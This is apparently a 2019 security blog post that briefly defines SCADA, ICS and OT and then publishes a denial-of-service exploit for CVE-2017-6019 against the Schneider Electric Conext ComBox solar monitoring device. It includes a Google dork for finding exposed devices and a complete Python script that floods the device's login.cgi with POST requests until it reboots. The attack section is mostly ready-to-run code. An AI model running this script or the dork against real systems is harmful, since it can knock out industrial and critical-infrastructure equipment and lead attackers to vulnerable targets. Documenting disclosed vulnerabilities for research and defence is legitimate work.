 ```yaml
---
category: 'blog'
cover: './cover.jpg'
title: 'Schneider Electric - ComBox Exploitation'
description: 'Exploitation on SCADA/ICS/IoT device running in critical infrastructures'
date: '2019-11-13'
tags: ['Exploitation']
published: true
---
```


_Exploitation on SCADA/ICS/OT device running in critical infrastructures_.

**What is SCADA, ICS or OT?**

![Industrial Infrastructure](./cover.jpg)

**SCADA**: "SCADA is an acronym for supervisory control and data acquisition, a computer system for gathering and analyzing real time data. SCADA systems are used to monitor and control a plant or equipment in industries such as telecommunications, water and waste control, energy, oil and gas refining and transportation."

**ICS**: "Industrial control system (ICS) is a general term that encompasses several types of control systems and associated instrumentation used for industrial process control."

**OT**: "Operational Technology – the hardware and software dedicated to detecting or causing changes in physical processes through direct monitoring and/or control of physical devices such as valves, pumps, etc."

<br/>

---

<br/>

**Conext ComBox - Denial of Service (HTTP-POST)**

**Description**: The exploit cause the device to self-reboot, constituting a denial of service.

**Google Dork**: `"Conext ComBox" + "JavaScript was not detected" /OR/ "Conext ComBox" + "Recover Lost Password"`

**Exploit Author**: Mark Liapustin & Arik Kublanov

**Vendor Homepage**: http://solar.schneider-electric.com/product/conext-combox/

**Software Link**: http://cdn.solar.schneider-electric.com/wp-content/uploads/2016/06/conext-combox-data-sheet-20160624.pdf

**CVE**: CVE-2017-6019

<br/>

---

<br/>

**Exploit Code**:

```
import subprocess
import os
import sys
import time
import socket
# =========================================================

print 'Usage: python ComBoxDos.py IP PORT'
print 'Number of arguments:', len(sys.argv), 'arguments.'
print 'Argument List:', str(sys.argv)

print "ComBox Denial of Service via HTTP-POST Request"
global cmdosip
cmdosip = str(sys.argv[1])
port = int(sys.argv[2])
print "[!] The script will cause the Conext ComBox device to crash and to reboot itself."
		
print "Executing...\n\n\n"
for i in range(1, 1000):
  try:
	cmdosdir = "login.cgi?login_username=Nation-E&login_password=DOS&submit=Log+In"
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((cmdosip, port))
	print "[+] Sent HTTP POST Request to: " + cmdosip + " with /" + cmdosdir + " HTTP/1.1"
	s.send("POST /" + cmdosdir + " HTTP/1.1\r\n")
	s.send("Host: " + cmdosip + "\r\n\r\n")
	s.close()
  except: 
     pass
```
